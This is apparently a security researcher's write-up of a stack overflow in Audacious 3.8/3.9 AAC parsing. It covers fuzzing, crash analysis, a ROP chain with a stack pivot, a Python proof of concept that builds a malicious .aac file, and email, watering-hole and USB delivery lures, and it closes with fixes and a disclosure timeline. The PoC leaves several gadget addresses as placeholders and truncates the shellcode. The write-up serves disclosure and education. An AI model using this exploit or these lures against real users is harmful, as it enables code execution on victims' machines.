









# Audacious 3.8/3.9 Stack Overflow: Deep Dive Analysis

**Discovery Date**: 2017-05-15  
**Vulnerability Type**: Stack Overflow  
**Impact**: Remote Code Execution  
**CVSS Score**: 8.8 (High)

## Overview

During my security research on multimedia applications, I discovered a critical **stack overflow vulnerability** in **Audacious Player versions 3.8 and 3.9**. This vulnerability was uncovered through systematic fuzzing of `.aac` audio files using the **CERT BFF (Basic Fuzzing Framework)**, demonstrating how automated testing can reveal complex memory corruption issues in media parsing libraries.

The vulnerability enables **arbitrary code execution** with the privileges of the user running Audacious Player, exploitable through both local and remote file delivery mechanisms.

## Vulnerability Discovery

### Research Methodology

The vulnerability was discovered through a comprehensive fuzzing campaign targeting audio file parsers:

```bash
# CERT BFF Fuzzing Campaign
./bff --target audacious --file-type aac --iterations 10000 --seed-corpus samples/

# Crash analysis revealed EIP control in libaudco
# Further analysis of the crash dump:
gdb audacious core.dump
(gdb) info registers
eip: 0x41414141  # Controlled EIP overwrite
```

### Initial Crash Analysis

The initial crash analysis revealed several critical indicators:


*Debugging session showing complete EIP control with 0x41414141 pattern*

- **EIP overwrite** with attacker-controlled data
- **Stack corruption** in the `libaudco` audio codec library
- **Recursive memcpy** operations without proper bounds checking
- **Cross-platform impact** affecting both Windows and Linux builds

## Technical Analysis

### Root Cause: Recursive memcpy Vulnerability

The vulnerability stems from a **recursive `memcpy` operation** in the `libaudco` library that lacks proper delimiter validation:


*Analysis of the vulnerable memcpy operation in libaudco showing the lack of bounds checking*

```c
// Vulnerable code pattern in libaudco
void parse_aac_frame(char *input_buffer, size_t buffer_size) {
    char stack_buffer[1024];
    
    // Recursive memcpy without bounds checking
    while (parse_frame_data(input_buffer)) {
        memcpy(stack_buffer, input_buffer, frame_size);  // VULNERABILITY
        input_buffer += frame_size;
        // No delimiter check leads to stack overflow
    }
}
```

### Memory Corruption Analysis

The vulnerability provides exceptional control over the execution environment:

- **EIP Control**: Complete control over instruction pointer
- **EDI Control**: Destination index register manipulation
- **ESI Control**: Source index register manipulation  
- **EBP Control**: Base pointer manipulation
- **No SEH Corruption**: Structured Exception Handling remains intact

This level of control is uncommon in stack overflow vulnerabilities and significantly simplifies exploitation.

## Exploitation Strategy

### Target Environment Assessment

**Supported Platforms:**
- Windows (all versions: XP, 7, 8, 10)
- Linux (various distributions)
- **Primary PoC Target**: Windows 8/10 (minor gadget adjustments needed for Win7)

### Security Mitigation Analysis

The target modules present a favorable exploitation environment:

```bash
# Security feature analysis
Module: libaudco.dll
- ASLR: Disabled
- DEP: Disabled  
- Stack Canaries: Not present
- CFI: Not implemented

# This configuration enables direct stack shellcode execution
```

### Stack Pivot Challenge

Despite the favorable security posture, exploitation faces a **critical challenge**:

- **Thread Context**: Vulnerability occurs outside the main thread
- **Stack Layout**: Controlled registers point above current stack position
- **Solution Required**: Negative stack pivot to reach shellcode placement area

## Advanced ROP Chain Development

### Phase 1: Initial Register Setup

The exploit begins with a carefully crafted ROP chain using a `pushad; ret` gadget:


*Initial ROP gadget - pushad; ret instruction for register setup*

```assembly
; Initial ROP gadget - saves all registers to stack
; Address: 0x???????? (module-relative addressing)
pushad          ; Save EAX, ECX, EDX, EBX, ESP, EBP, ESI, EDI
ret             ; Return to next ROP gadget
```

This gadget provides:
- **Controlled EBP**: Base pointer for stack frame manipulation
- **Controlled ESI**: Source for memory operations
- **Controlled EDI**: Destination for memory operations

### Phase 2: Stack Alignment

The second ROP gadget performs crucial stack context alignment:

```assembly
; Stack alignment gadget
; Address: 0x68832D18
push esp        ; Push current stack pointer
ret             ; Return using ESP as target address
```

This technique ensures that subsequent ROP gadgets execute in the correct stack context.


*Detailed view of ROP chain execution and stack alignment process*

### Phase 3: Stack Pivot Execution

The critical stack pivot operation:



*Stack pivot gadget execution: sub esp, 0x1FF; ret for negative stack pivot*

```assembly
; Stack pivot gadget
; Address: 0x????????
sub esp, 0x1FF  ; Negative stack pivot (511 bytes)
ret             ; Return to pivoted stack location
```

**Pivot Analysis:**
- **Pivot Distance**: 511 bytes (0x1FF) negative offset
- **Target Area**: Reaches attacker-controlled stack region
- **Shellcode Placement**: Positioned within pivot range

### Phase 4: RET Sled Implementation

To enhance exploit reliability across different environments:

```assembly
; RET sled for reliable execution
; Multiple consecutive RET instructions
0x41414141: ret
0x41414142: ret  
0x41414143: ret
0x41414144: ret
; ... continues until NOP sled
```

The RET sled provides:
- **Execution Reliability**: Compensates for minor address variations
- **Environment Adaptation**: Works across different Windows versions
- **Shellcode Transition**: Smooth transition to NOP sled


*Final shellcode execution after successful ROP chain and stack pivot*

## Shellcode Development

### NOP Sled Implementation

```assembly
; NOP sled for landing zone
nop             ; 0x90
nop             ; 0x90  
nop             ; 0x90
; ... (repeated for reliability)
```

### Payload Integration

The final shellcode follows standard exploitation patterns:

```assembly
; Example shellcode structure
; 1. Environment setup
; 2. API resolution (GetProcAddress, LoadLibrary)
; 3. Payload execution (reverse shell, message box, etc.)
; 4. Clean exit or persistence
```

## Proof of Concept Development

### Malicious AAC File Structure

The exploit requires a specially crafted `.aac` file:

```python
#!/usr/bin/env python
# Audacious AAC Exploit PoC

def create_malicious_aac():
    """
    Generate malicious AAC file for Audacious stack overflow
    """
    
    # AAC header structure
    aac_header = "AAC_HEADER_MAGIC"
    
    # ROP chain payload
    rop_chain = struct.pack('<I', 0x????????)  # pushad; ret
    rop_chain += struct.pack('<I', 0x68832D18)  # push esp; ret
    rop_chain += struct.pack('<I', 0x????????)  # sub esp, 0x1FF; ret
    
    # RET sled
    ret_sled = struct.pack('<I', 0x????????) * 20
    
    # NOP sled
    nop_sled = "\x90" * 100
    
    # Shellcode (calculator pop for PoC)
    shellcode = "\xfc\x48\x83\xe4\xf0..."  # msfvenom payload
    
    # Buffer overflow trigger
    overflow_data = "A" * 1024  # Trigger stack overflow
    overflow_data += rop_chain
    overflow_data += ret_sled  
    overflow_data += nop_sled
    overflow_data += shellcode
    
    return aac_header + overflow_data

# Generate malicious file
with open("malicious.aac", "wb") as f:
    f.write(create_malicious_aac())
```

### Delivery Mechanisms

**Local Exploitation:**
```bash
# Direct file execution
audacious malicious.aac
```

**Remote Exploitation:**
```html
<!-- Web-based delivery -->
<a href="malicious.aac" download>Download Music File</a>

<!-- Email attachment vector -->
Subject: New Music Collection
Attachment: song.aac (malicious.aac renamed)
```

## Impact Assessment

### Attack Scenarios

**Scenario 1: Targeted Attack**
- Attacker sends malicious audio file via email
- Victim opens file in Audacious Player
- Shellcode executes with user privileges
- Persistent backdoor installed

**Scenario 2: Watering Hole**
- Malicious AAC files hosted on compromised music websites
- Visitors download infected audio files
- Mass compromise of Audacious users

**Scenario 3: Physical Access**
- USB drops with malicious audio files
- Social engineering for file execution
- Local privilege escalation if needed

### Risk Analysis

**Severity: High**
- **Attack Vector**: Local/Remote file
- **Authentication**: None required
- **User Interaction**: Minimal (file opening)
- **Scope**: Changed (code execution in user context)
- **CVSS Score**: 8.8 (High)

## Defensive Measures

### For Users

**Immediate Actions:**
1. **Update Audacious** to the latest patched version
2. **Disable automatic file associations** for unknown audio formats
3. **Use sandboxed environments** for untrusted audio files
4. **Enable additional security controls** (Windows Defender, etc.)

**Long-term Security:**
1. **Regular software updates** for all multimedia applications
2. **Email attachment screening** for audio/video files
3. **User education** about malicious media files

### For Developers

**Secure Coding Practices:**
```c
// Secure memcpy implementation
void secure_parse_aac_frame(char *input_buffer, size_t buffer_size) {
    char stack_buffer[1024];
    size_t bytes_copied = 0;
    
    while (parse_frame_data(input_buffer) && bytes_copied < sizeof(stack_buffer)) {
        size_t frame_size = get_frame_size(input_buffer);
        
        // Bounds checking prevents overflow
        if (bytes_copied + frame_size > sizeof(stack_buffer)) {
            break;  // Prevent overflow
        }
        
        memcpy(stack_buffer + bytes_copied, input_buffer, frame_size);
        bytes_copied += frame_size;
        input_buffer += frame_size;
    }
}
```

**Security Controls:**
1. **Enable ASLR** for all application modules
2. **Implement DEP** to prevent stack execution
3. **Add stack canaries** to detect corruption
4. **Fuzz testing integration** in development pipeline

## Research Methodology

### Tools and Techniques

**Fuzzing Framework:**
- **CERT BFF**: Primary fuzzing framework
- **Custom harnesses**: Targeted AAC file generation
- **Coverage analysis**: Code path exploration

**Analysis Tools:**
- **GDB**: Linux debugging and analysis
- **WinDbg**: Windows crash analysis
- **IDA Pro**: Static analysis and ROP gadget discovery
- **Python**: Exploit development and automation


*Memory layout analysis showing stack corruption and controlled data placement*


*Advanced debugging session demonstrating exploitation technique validation*


*Complete exploitation demonstration with calculator payload execution*

### Responsible Disclosure

**Timeline:**
1. **Discovery**: Vulnerability identified through fuzzing
2. **Analysis**: Detailed technical analysis completed
3. **PoC Development**: Working exploit created for demonstration
4. **Vendor Contact**: Audacious development team notified
5. **Patch Development**: Coordinated patch development
6. **Public Disclosure**: After patch availability

## Conclusion

The Audacious stack overflow vulnerability demonstrates the **critical importance** of secure memory management in multimedia applications. The vulnerability's impact extends beyond simple crashes, enabling **complete system compromise** through carefully crafted audio files.

### Key Findings

- **Widespread Impact**: Affects multiple Audacious versions across platforms
- **Easy Exploitation**: Minimal security mitigations in target modules
- **Advanced Techniques**: Successful ROP chain development despite threading challenges
- **Delivery Flexibility**: Multiple attack vectors available

### Security Implications

This research highlights several critical security considerations:

1. **Multimedia Security**: Audio/video parsers require enhanced security focus
2. **Fuzzing Importance**: Automated testing reveals complex vulnerabilities
3. **Defense in Depth**: Multiple security layers needed for media applications
4. **Update Criticality**: Prompt patching essential for multimedia software

The techniques demonstrated in this research contribute to the broader understanding of **multimedia exploitation** and provide valuable insights for both offensive and defensive security professionals.

## References

- [CERT Basic Fuzzing Framework](https://www.cert.org/vulnerability-analysis/tools/bff.cfm)
- [Audacious Player Official Site](https://audacious-media-player.org/)
- [Stack Overflow Exploitation Techniques](https://corelan.be/index.php/2009/07/19/exploit-writing-tutorial-part-1-stack-based-overflows/)
- [ROP Chain Development Guide](https://corelan.be/index.php/2010/06/16/exploit-writing-tutorial-part-10-chaining-dep-with-rop-the-rubikstube-writeup/)

---

**Research conducted by**: Alejandro Parodi (hdbreaker)  
**Disclosure Status**: Coordinated with Audacious development team  
**Impact**: Patched in subsequent Audacious releases 